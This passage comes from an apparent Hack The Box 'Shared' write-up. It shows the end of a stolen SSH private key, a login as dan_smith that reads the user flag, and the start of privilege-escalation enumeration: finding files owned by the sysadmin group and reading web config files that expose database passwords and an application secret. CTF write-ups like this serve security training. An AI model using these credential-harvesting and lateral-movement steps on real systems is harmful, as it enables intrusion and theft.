 ```bash
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

Write to file, login and grab ``user.txt``.
```bash
➜  shared vim dan-id_rsa
➜  shared chmod 400 dan-id_rsa 
➜  shared ssh dan_smith@shared.htb -i dan-id_rsa 

dan_smith@shared:~$ id && cat user.txt
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
ac1d7c930a51968f97efe55963ecfe62
```

---------------------------

# ROOT
### Step 1
With manual enumeration we first see that `dan_smith` is part of `sysadmin` group, lets look for files owned by that group.
```bash
dan_smith@shared:/$ find / -group sysadmin 2> /dev/null
/usr/local/bin/redis_connector_dev
```

If we remember from earlier when we ran `pspy64` we found another line containing **redis**:
```bash
2022/08/25 06:58:06 CMD: UID=0    PID=8502   | pidof redis-server 
```

We can access the service through `redis-cli`, however everything we throw at it returns `(error) NOAUTH Authentication required.`.
Lets start hunting for credentials. Most likely we can find SQL creds somewhere in `/var/www/`.

```bash
dan_smith@shared:/var/www/checkout.shared.htb/config$ cat db.php 
<?php
define('DBHOST','localhost');
define('DBUSER','checkout');
define('DBPWD','a54$K_M4?DdT^HUk');
define('DBNAME','checkout');
?>

dan_smith@shared:/var/www/shared.htb/ps/app/config$ cat parameters.php 
<?php return array (
  'parameters' => 
  array (
    'database_host' => '127.0.0.1',
    'database_port' => '',
    'database_name' => 'pshop',
    'database_user' => 'pshop',
    'database_password' => 'T*k#cbND_C*WrQ9h',
    'database_prefix' => 'ps_',
    'database_engine' => 'InnoDB',
    'mailer_transport' => 'smtp',
    'mailer_host' => '127.0.0.1',
    'mailer_user' => NULL,
    'mailer_password' => NULL,
    'secret' => 'JcFbTGrwO5Jm2jLiGt5Da0PThwPCWPpht34Afzg9pehekQ19TxvUeU5Scmr9aH3J',
    'ps_caching' => 'CacheMemcache',
    'ps_cache_enable' => false,
    'ps_creation_date' => '2022-03-06',
    'locale' => 'en-US',
```